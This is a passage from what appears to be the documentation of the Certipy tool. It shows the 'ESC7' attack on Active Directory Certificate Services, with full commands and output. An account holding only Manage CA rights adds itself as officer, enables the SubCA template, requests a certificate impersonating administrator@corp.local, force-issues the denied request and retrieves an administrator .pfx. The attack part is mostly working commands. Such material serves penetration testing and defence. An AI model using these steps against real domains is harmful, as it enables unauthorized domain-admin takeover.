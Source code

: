 If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -add-officer 'john'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'john' on 'corp-CA'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -enable-template 'SubCA'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-CA'
```

By default, the `SubCA` template is enabled.

**Attack**

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'SubCA' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 674
Would you like to save the private key? (y/N) y
[*] Saved private key to 674.key
```

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -issue-request 674
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -retrieve 674
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 674
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Loaded private key from '674.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
